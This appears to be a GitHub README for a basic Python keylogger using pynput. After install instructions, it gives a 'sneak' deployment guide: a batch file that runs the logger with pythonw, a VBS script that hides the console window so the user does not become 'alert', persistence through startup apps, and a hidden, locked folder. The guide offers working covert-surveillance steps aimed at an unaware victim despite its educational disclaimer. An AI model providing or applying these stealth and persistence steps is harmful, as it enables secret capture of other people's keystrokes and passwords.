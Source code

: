 # Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard 

```Disclaimer: This content is intended for educational purposes only. I am not responsible for any misuse or incorrect implementation of the information provided```
## Tech Stack

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) 

## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and execute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

Why? Whenever the user logs in cmd prompt will come up on screen and the program will start running

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

Why? If the user sees the cmd prompt up opening he will be on alert so this file is to make it physically invisible from the screen

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.
